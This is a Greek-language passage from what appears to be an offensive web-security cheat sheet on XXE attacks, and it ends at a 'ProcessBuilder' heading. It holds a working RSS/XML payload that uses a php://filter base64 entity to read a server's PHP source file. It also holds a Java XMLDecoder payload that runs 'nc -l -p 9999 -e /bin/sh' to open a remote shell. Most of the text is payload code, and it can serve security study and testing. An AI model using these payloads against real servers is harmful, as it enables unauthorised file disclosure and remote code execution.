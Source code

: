 Χρησιμοποιώντας το PHP φίλτρο base64
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```
## Εκτέλεση Κώδικα Java XMLDecoder XEE σε RCE

Το XMLDecoder είναι μια κλάση Java που δημιουργεί αντικείμενα βασισμένα σε ένα μήνυμα XML. Αν ένας κακόβουλος χρήστης μπορεί να πείσει μια εφαρμογή να χρησιμοποιήσει αυθαίρετα δεδομένα σε μια κλήση της μεθόδου **readObject**, τότε θα αποκτήσει αμέσως εκτέλεση κώδικα στον διακομιστή.

### Χρήση της Runtime().exec()
```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
<object class="java.lang.Runtime" method="getRuntime">
<void method="exec">
<array class="java.lang.String" length="6">
<void index="0">
<string>/usr/bin/nc</string>
</void>
<void index="1">
<string>-l</string>
</void>
<void index="2">
<string>-p</string>
</void>
<void index="3">
<string>9999</string>
</void>
<void index="4">
<string>-e</string>
</void>
<void index="5">
<string>/bin/sh</string>
</void>
</array>
</void>
</object>
</java>
```
### ProcessBuilder
